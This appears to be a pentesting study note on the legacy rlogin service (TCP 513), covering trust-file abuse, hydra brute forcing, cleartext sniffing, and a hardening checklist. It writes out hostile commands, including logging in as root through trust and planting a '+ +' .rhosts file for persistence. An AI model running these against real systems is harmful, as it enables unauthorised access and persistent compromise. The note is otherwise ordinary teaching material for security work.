

# 37 - rlogin (Port 513) Pentesting

## 1. Executive Summary

rlogin ("remote login") on **TCP 513** is a BSD r-service that provides remote shells like a primitive, **unencrypted** SSH. Its fatal design is **host-based trust**: `.rhosts` and `/etc/hosts.equiv` files let a named user from a named (or *any*) host log in **without a password**. A `+ +` entry in `.rhosts` trusts everyone — instant passwordless shell. Combined with cleartext transport and IP-spoofable trust, rlogin is a fast win whenever it appears.

## 2. Protocol Overview & Architecture

The server (`rlogind`) authenticates by checking the client's source IP/username against trust files. If trusted, no password is required; otherwise it falls back to a password prompt. Everything — including any password — travels in cleartext. `.rhosts` files often live in home directories on NFS volumes, so an NFS compromise can plant trust.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p513 <IP>
# Look for trust files after any foothold
find / -name .rhosts 2>/dev/null
cat /etc/hosts.equiv
```

## 4. Exploitation Deep Dive

### 4.1 Trust Abuse (passwordless)
```bash
rlogin -l root <IP>          # if root is trusted, you're in with no password
rlogin <IP> -l <user>
```
A `+ +` line in the target user's `.rhosts` trusts any host/any user.

### 4.2 Credential Brute Force
```bash
hydra -L users.txt -P pass.txt rlogin://<IP>
```

### 4.3 Cleartext Sniffing
On-segment capture reveals any password fallback:
```bash
tcpdump -i eth0 -A 'tcp port 513'
```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Passwordless root via trust = immediate full compromise.
- Plant your own `.rhosts` (`echo "+ +" > ~/.rhosts`) for persistence.

## 7. Defense & Hardening
1. **Disable r-services**; use SSH.
2. Remove all `.rhosts` and `/etc/hosts.equiv` files.
3. Firewall 512-514; never run over untrusted networks.

## 8. Chaining Opportunities
- NFS write to a home dir → plant `.rhosts` → passwordless login. See **[[25 - NFS (Port 2049) Pentesting]]**.
- Shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[38 - rsh (Port 514) Pentesting]]
- [[39 - rexec (Port 512) Pentesting]]
- [[02 - Telnet (Port 23) Pentesting]]

## 10. Tools
`rlogin`, `hydra`, `tcpdump`.
